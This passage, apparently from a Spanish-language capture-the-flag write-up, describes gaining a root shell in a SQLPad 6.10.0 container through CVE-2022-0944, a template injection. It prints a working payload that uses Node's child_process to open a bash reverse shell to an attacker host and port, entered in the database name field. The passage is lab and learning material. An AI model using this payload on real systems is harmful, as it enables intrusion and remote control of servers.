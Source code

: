 ![SQLPad](/assets/writeups/sightless/3.png)

Del resto no hay más nada, así que veamos que hacemos con esto.

## Intrusión

### root - container

La versión de este SQLPad es la `6.10.0`, buscando por vulnerabilidades encontramos el CVE-2022-0944, que se trata de una template injection que nos permitirá llegar a un RCE.

Buscando por los PoCs, encontramos el [siguiente](https://github.com/0xRoqeeb/sqlpad-rce-exploit-CVE-2022-0944), que simplemente tira al endpoint `/api/test-connection` y le manda un payload para obtener el respectivo RCE. Viendo como funciona podemos ver que lo único que tendriamos que hacer es simplemente introducir esto

{% raw %}
```js
{{ process.mainModule.require('child_process').exec('/bin/bash -c "bash -i >& /dev/tcp/{args.attacker_ip}/{args.attacker_port} 0>&1"') }}
```
{% endraw %}

En esta parte de la página, especificamente en la opción del driver de conexión para especificar el nombre de la base de datos a usar:

